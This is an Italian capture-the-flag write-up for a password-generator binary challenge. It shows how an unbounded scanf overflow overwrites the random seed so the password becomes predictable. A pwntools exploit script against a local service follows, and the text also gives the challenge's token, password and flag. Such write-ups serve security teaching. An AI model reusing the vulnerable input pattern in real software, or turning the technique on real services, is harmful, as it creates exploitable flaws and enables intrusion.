

# Password Generator (`pswgenerator`)

La challenge espone un servizio remoto (`nc localhost 20010`) ed il binario corrispondente, che presumibilmente 'genera' delle password.
La generazione delle password e l'implementazione del programma sembrano corrette, ma analizzando bene il decompilato (ottenuto con tool come `ghidra` o `binary-ninja`) ci si accorge di una parte critica in questa sezione:


- Lo `scanf()` di `nome` non ha un limite sui caratteri inseriti (`%s`), permettendo un buffer overflow.
- Il seed viene assegnato con time(0) prima che questo `scanf()` venga chiamato, e `srand(seed)` viene chiamato dopo il nostro `scanf()`, quindi overflowando il nome possiamo sostituirlo prima che venga utilizzato (se il layout di memoria lo consente).



Osservando il frame della funzione (con `Edit stack frame` di `ghidra`), capiamo di poterlo fare.

A questo punto l'exploit è chiaro, basterà sovrascrivere il seed con un valore deciso da noi sfruttando il **buffer overflow**, e prevedere quindi la password generata.
Per farlo si può o riscrivere il codice con il nostro seed, o per i più pigri debuggare il binario con un debugger (es. `gdb`) e prendere il valore in **runtime**.

Fatto questo basterà reversare il binario per trovare il token **segretissimo** e scrivere la password giusta, e si riceverà la flag.

**Nota:** Normalmente i compilatori, fra le altre ottimizzazioni, riordinano le variabili mettendo i buffer dopo le variabili (es. `int`). Per rendere la challenge exploitabile, le variabili e i buffer in questione sono stati appositamente messi nell'ordine intended in uno struct packed, altrimenti il seed sarebbe stato sopra al nome.

Esempio di exploit:
```python
from pwn import *

context.binary = ELF('attachments/pswgenerator')
p = remote('localhost', 20010)

payload = b'A'*64 + b'B'*8

print(p.recvuntil(b'Come ti chiami?').decode())
p.sendline(payload)

print(p.recvuntil(b'.com/)'))
p.sendline(b'supersafeunguessabletoken')

password = b'Yy?6V9yCpO\W~KL\W?2]eT:E1mZzPmgzgG2^qLrc<p;;<y8dY<c@a>V3|1NM@ViH' # preso con gdb
print(p.recvuntil(b'la flag!').decode())
p.sendline(password)

p.interactive()
```

Flag: `rossiCTF{4pP4r3N7ly_th3_p4Ssw0rD_W45n7_s0_54f3..._a3f9c1}`